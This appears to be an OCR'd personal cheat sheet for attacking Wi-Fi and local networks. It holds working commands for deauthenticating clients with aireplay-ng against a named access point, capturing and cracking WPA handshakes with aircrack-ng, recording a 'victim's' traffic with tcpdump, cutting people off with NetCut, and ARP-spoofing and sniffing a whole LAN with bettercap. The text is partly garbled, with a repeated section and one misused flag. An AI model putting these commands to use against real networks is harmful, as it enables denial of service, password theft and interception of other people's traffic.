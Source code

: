 # FINALY- CRACK THE PASSWORD
--> USE WIRESHARK TO EXAMIN .CAP. USE FILTER "eapol" TO FIND HANDSHAKES 
*  aircrack-ng deauth_capture.cap -w wordlist.txt

------------------------------------------[DEAUTH / THROTTLE] --------------------------------------------
[MORE INFO]
* [-0 means deauthentication.] 
* [-0 =continous attack, 10=Quick reconncet]
* [-a Mac address of target AP]
* [-c macaddress associated client on ap to deauth(IF OMMITTED, ALL GET DEAUTHE

[deauth-- mdk4]
deauth using  mdk4

--> RUN WIRESHARK

[Send deauth - ALL CLIENTS]
* [aireplay-ng] -0 0 -a 50:C7:BF:DC:4C:E8 -c wlan0

[Send deauth] -- SPECIFIC CLIENTS
* [aireplay-ng] -0 0 -a 50:C7:BF:DC:4C:E8 -c E0:B5:2D:EA:18:A7 wlan0

**********--> a .acap file should be downloaded
--> load it into wireshark for analasys ************ 

[FINALY--> CRACK THE PASSWORD]
--> USE WIRESHARK TO EXAMIN .CAP. USE FILTER "eapol" TO FIND HANDSHAKES 
* [aircrack-ng] xyz.cap -w wordlist.txt

-----------------------------------------------------[WIRESHARK - PSK SPY ]------------------------------------------

* First enter psk info into : https://www.wireshark.org/tools/wpa-psk.html (Gained from router pass and login) 

-----------------------------------------------------[ PACKET-DUMP+ANALASYS  ]------------------[tcpdump] -> captures traffic from all layeres of OSI MOdel. YOu can store and analyze the data, and analayze it later, on wireshark

-r = reverborse; places the captures in std_out
--[persistant capture] -- 
$ sudo tcpdump -i eth0 -w capture_output.pcap 

--[Limited  Capture]--
$ sudo tcpdump -i eth0 -C 100 -w limited_capture.pcap

--[Traffic from specific Victim]
$  sudo tcpdump -i eth0 host 192.victims_ip -w host_traffic.pcap
-----------------------------------------------------[LIMIT-BANDWIDTH]----------------------------------------
[netcut] -->A simple tool to ban people's Internet connection with ARP spoofing.
* https://github.com/cdes5804/NetCut
Optionally, set a limit on the size of the capture file.

-----------------------------------------------------[REAL-TIME-LAN-ACTIVITY]----------------------------------------
net.prob on
set arp.spoof.internal --> all computers will bespooofed 
set arp.spoof.targets ip_add, ip_add 
arp.spoof on 
set net.sniff.output ./pencap.pcap
set net.sniff.verbose true
net.sniff on 
